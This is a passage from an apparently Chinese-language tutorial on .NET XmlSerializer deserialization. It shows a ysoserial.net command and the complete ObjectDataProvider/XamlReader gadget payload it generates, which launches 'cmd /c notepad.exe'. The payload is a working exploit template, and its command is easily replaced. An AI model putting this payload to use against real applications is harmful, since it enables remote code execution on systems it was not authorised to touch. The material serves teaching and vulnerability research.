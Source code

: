 
![](./img/7.9.png)

## 2.5 ysoserial.net

以上其实是[ysoserial.net](https://github.com/pwntester/ysoserial.net)生成的`payload`反推。

>ysoserial.exe -f XmlSerializer -g ObjectDataProvider -c "notepad.exe" -o raw

```

<?xml version="1.0"?>
<root xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" type="System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <ExpandedWrapperOfXamlReaderObjectDataProvider>
        <ExpandedElement/>
        <ProjectedProperty0>
            <MethodName>Parse</MethodName>
            <MethodParameters>
                <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">
                    &lt;ResourceDictionary xmlns=&quot;http://schemas.microsoft.com/winfx/2006/xaml/presentation&quot; xmlns:x=&quot;http://schemas.microsoft.com/winfx/2006/xaml&quot; xmlns:System=&quot;clr-namespace:System;assembly=mscorlib&quot; xmlns:Diag=&quot;clr-namespace:System.Diagnostics;assembly=system&quot;&gt;
                        &lt;ObjectDataProvider x:Key=&quot;LaunchCmd&quot; ObjectType=&quot;{x:Type Diag:Process}&quot; MethodName=&quot;Start&quot;&gt;
                            &lt;ObjectDataProvider.MethodParameters&gt;
                                &lt;System:String&gt;cmd&lt;/System:String&gt;
                                &lt;System:String&gt;/c notepad.exe&lt;/System:String&gt;
                            &lt;/ObjectDataProvider.MethodParameters&gt;
                        &lt;/ObjectDataProvider&gt;
                    &lt;/ResourceDictionary&gt;
                </anyType>
            </MethodParameters>
            <ObjectInstance xsi:type="XamlReader"></ObjectInstance>
        </ProjectedProperty0>
    </ExpandedWrapperOfXamlReaderObjectDataProvider>
</root>

```
这里把payload分成2部分使用
